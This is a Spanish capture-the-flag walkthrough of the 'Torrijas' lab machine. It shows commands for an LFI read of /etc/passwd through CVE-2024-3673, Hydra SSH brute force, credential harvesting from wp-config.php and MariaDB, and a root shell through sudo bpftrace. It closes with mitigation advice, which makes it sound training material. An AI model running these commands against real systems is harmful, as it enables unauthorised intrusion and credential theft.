## Información General

| Campo                 | Valor                                         |
| --------------------- | --------------------------------------------- |
| **Máquina**           | Torrijas                                      |
| **Plataforma**        | TheHackersLabs                                |
| **Dificultad**        | Facil                                         |
| **IP objetivo**       | 192.168.241.200                               |
| **Hostname añadido**  | torrija.thl (en `/etc/hosts`)                 |
| **Sistema operativo** | Linux (Debian 12)                             |
| **Servicios**         | SSH (22), HTTP/WordPress (80), MariaDB (3306) |
| **Usuario obtenido**  | premo, primo                                  |
| **Root**              | Sí, vía `sudo bpftrace`                       |

---
## Resumen del Ataque

La máquina expone un sitio WordPress en `/wordpress/`. Un escaneo agresivo de plugins reveló `web-directory-free` 1.7.2, vulnerable a una inclusión de archivos locales (CVE-2024-3673). Con esa LFI se leyó `/etc/passwd`, lo que permitió identificar dos usuarios (`primo` y `premo`) y obtener por fuerza bruta la contraseña SSH de `premo`.

Desde la sesión de `premo` se localizó `wp-config.php`, con credenciales de la base de datos. Usando el usuario `root` de MariaDB apareció una base de datos `Torrijas` con una tabla que contenía la contraseña de `primo`. Tras cambiar a `primo`, `sudo -l` mostró que podía ejecutar `bpftrace` como root sin contraseña, lo que se explotó según GTFOBins para obtener una shell root.

---
## Técnicas Usadas

- Escaneo de puertos con Nmap (SYN scan completo y detección de versiones)
- Enumeración de directorios con dirsearch
- Enumeración de WordPress con WPScan (usuarios, plugins)
- Fuerza bruta de login de WordPress (fallida)
- LFI en plugin de WordPress (CVE-2024-3673)
- Fuerza bruta SSH con Hydra
- Enumeración de configuración sensible (`wp-config.php`)
- Acceso a MariaDB con credenciales reutilizadas
- Escalada de privilegios con `sudo` + `bpftrace` (GTFOBins)

---
## Desarrollo

1. Reconocimiento de puertos

Escaneo completo de puertos con SYN scan:

```
sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn -oN port 192.168.241.200
```



Detección de versiones sobre los puertos abiertos:

```
nmap -p 22,80,3306 -sV -sC -oN allport 192.168.241.200
```



Se añade el hostname a `/etc/hosts` como `torrija.thl`.

2. Enumeración web

La web principal es un sitio de comida. Se enumeran directorios:

```
192.168.241.200
```


```
dirsearch -u http://192.168.241.200/ --exclude-status 403,404,500 -e php,txt,html
```



Se localiza una instalación de WordPress en `/wordpress/`.

3. Enumeración de WordPress y fuerza bruta fallida

```
wpscan --url http://192.168.241.200/wordpress/ --enumerate u,vp
```

Se identifica el usuario `administrator`.



**Intento fallido:** se intentó fuerza bruta sobre el login de `administrator` con WPScan, sin éxito. Se decidió enumerar plugins de forma más agresiva.

```
wpscan --url http://192.168.241.200/wordpress --enumerate ap --force --plugins-detection mixed
```



Se detectan dos plugins. `web-directory-free` 1.7.2 tiene listado de directorios habilitado y una versión desactualizada.

4. Explotación: LFI en web-directory-free (CVE-2024-3673)

Tras buscar los plugins en Internet, se utiliza un exploit público:

```
git clone https://github.com/Nxploited/CVE-2024-3673.git 
cd CVE-2024-3673
```

```
python3 CVE-2024-3673.py --url http://192.168.241.200/wordpress --file ../../../../../etc/passwd
```



Usuarios identificados: **primo** y **premo**.

5. Acceso inicial por SSH

Fuerza bruta contra SSH para el usuario `premo`:

```
hydra -l premo -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.200 -t 64
```



```
ssh premo@192.168.241.200
```

```
premo@Torrija-TheHackersLabs:~$ whoami
```



Flag de usuario:

```
premo@Torrija-TheHackersLabs:~$ cat user.txt 
```



6. Enumeración local y credenciales en wp-config.php

```
premo@Torrija-TheHackersLabs:~$ find / -type f -name "wp-config.php" 2>/dev/null
/var/www/html/wordpress/wp-config.php
```



```
premo@Torrija-TheHackersLabs:~$ cat /var/www/html/wordpress/wp-config.php
```



7. Acceso a MariaDB

Con las credenciales de `wp-config.php`:

```
premo@Torrija-TheHackersLabs:~$ mysql -h localhost -u admin -p
```



```
MariaDB [(none)]> show databases;
```



```
MariaDB [(none)]> use wordpress;
```

```
MariaDB [wordpress]> show tables;
```



La base `wordpress` contiene las tablas habituales. En `wp_users` solo aparece `administrator`, con un hash de WordPress, que no se intentó romper porque el objetivo ya no era el login web.

```
MariaDB [wordpress]> select * from wp_users;
```



**Pivote:** con `admin` solo se ve la base `wordpress`. Se prueba el mismo `wp-config` con el usuario `root` de MariaDB y aparecen más bases de datos.

```
premo@Torrija-TheHackersLabs:~$ mysql -h localhost -u root -p
```

```
MariaDB [(none)]> show databases;
```



```
MariaDB [(none)]> use Torrijas;
```

```
MariaDB [Torrijas]> show tables;
```



```
MariaDB [Torrijas]> select * from primo;
```



8. Movimiento lateral a primo

```
premo@Torrija-TheHackersLabs:~$ su primo
```

```
primo@Torrija-TheHackersLabs:~$ sudo -l
```



9. Escalada de privilegios: bpftrace

`bpftrace` permite ejecutar un comando externo con `-c`. Como se ejecuta con sudo, el comando hereda privilegios de root. Según GTFOBins:

```
primo@Torrija-TheHackersLabs:~$ sudo bpftrace -c /bin/sh -e 'END {exit()}'
```

```
# cd /root
# cat root.txt
```



---
## Lecciones Aprendidas

- **Un plugin desactualizado puede dar acceso completo.** La LFI de `web-directory-free` permitió leer `/etc/passwd` sin autenticación.
- **La enumeración agresiva de plugins merece la pena.** Con la detección por defecto de WPScan no aparecían los plugins vulnerables.
- **El listado de directorios en plugins expone información.** Facilitó identificar el plugin y su versión.
- **Las credenciales de configuración son el siguiente paso natural.** `wp-config.php` contenía credenciales de MariaDB que dieron acceso a más datos.
- **No hay que parar en el primer nivel de acceso a la base de datos.** El usuario `admin` solo mostraba la base de WordPress. Con `root` aparecieron las credenciales de otro usuario.
- **`sudo` con binarios que permiten ejecutar comandos es una escalada directa.** `bpftrace` con `-c` debe tratarse como equivalente a una shell de root.

---

## Medidas de Mitigación

1. **Actualizar plugins de WordPress** y eliminar los que no se usen. En este caso, `web-directory-free` debía actualizarse a una versión sin LFI.
2. **Deshabilitar el listado de directorios** en el servidor web (`Options -Indexes` en Apache).
3. **Restringir el acceso a `wp-config.php`** y evitar que los permisos permitan leerlo a usuarios no privilegiados.
4. **No reutilizar contraseñas** entre el servicio web, la base de datos y el sistema. La contraseña de `premo` era débil (`pinkgirl`) y debe aplicarse una política de contraseñas robusta.
5. **Limitar los privilegios de MariaDB:** `root` no debería ser accesible con la contraseña de la aplicación, y las bases de datos no deberían contener credenciales en texto plano.
6. **No conceder `sudo NOPASSWD` sobre binarios** que permitan ejecutar comandos (`bpftrace`, `find`, `vim`, etc.).
7. **Desactivar el acceso SSH por contraseña** y usar claves públicas.

